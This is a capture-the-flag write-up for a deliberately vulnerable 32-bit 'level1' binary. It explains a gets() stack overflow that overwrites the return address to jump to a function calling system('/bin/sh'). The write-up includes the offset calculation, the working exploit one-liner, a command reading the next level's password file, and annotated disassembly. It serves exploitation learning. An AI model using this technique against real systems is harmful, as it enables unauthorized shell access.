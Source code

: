 - attack: buffer overflow with direct shell call
- binary behavior: get argument and do nothing
- targeted functions: run and main
- vulnerability in main: gets() function (receives user input) has no buffer limit
- vulnerability in run: system() runs /bin/sh

Method:
- find return function address
- find the offset padding size
- overflow the binary
- overwrite eip with the return function address
- cat passwd when you will access console with root privedges

Info:
- 0x08048444 - address of run function
- 0x44484080 - same in little-endian
- same in hex - \x44\x84\x04\x08

- eip register address after segfault - 0x63413563
- its offset - 76 (from wiremask.eu)
72 - SIGSEGV, Segmentation fault.
76 - SIGILL, Illegal instruction.

- offset code structure: 76 = 4 (return address) + 72 (padding)


QA
- how do we know the padding size? 
- by interative search

- how do we find the return function address?
- find it in assembler code before finction name: 08048444 <run>

- why we need random pattern generation and simple multiplication of same symbol doesn't work for overflowing in gdb?

- why we use cat here?
- /bin/sh is called through the pipe and became non-interactive (it read stdin with EOF and closes). cat enables interactive listening here

Code:
objdump -d ./level1
gdb level1
    r A # run with argument
(gdb)  r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac"
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
cat /home/user/level2/.pass

Functions
main
08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp     # put buffer in esp
 8048486:       83 ec 50                sub    $0x50,%esp           # of size 80
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax      # - 16 = 64 and put it in eax 
 804848d:       89 04 24                mov    %eax,(%esp)          # and put in in buffer  
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>   # exploit - buffer in gets
 8048495:       c9                      leave
 8048496:       c3                      ret # put here the adress of run function


run
08048444 <run>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt> #exploit
 804847e:       c9                      leave
 804847f:       c3


